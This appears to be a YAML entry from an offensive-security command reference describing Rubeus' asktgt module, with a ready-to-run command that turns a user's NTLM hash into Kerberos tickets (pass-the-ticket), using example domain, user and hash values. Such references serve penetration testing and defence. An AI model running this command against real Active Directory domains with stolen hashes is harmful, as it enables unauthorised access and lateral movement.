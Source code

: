 ```yaml
---
description: |
  Rubeus' `asktgt` module uses a valid user's NTLM hash to request Kerberos tickets, in order to access any service or machine where that user has permissions.

  Command Reference:

  	Domain: test.local

  	Username: john

  	Hash: 2a3de7fe356ee524cc9f3d579f2e0aa7

command: |
  Rubeus.exe asktgt /domain:test.local /user:john /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt
items:
  - Hash
  - Username
services:
  - Kerberos
OS:
  - Windows
attack_types:
  - Exploitation
---
```


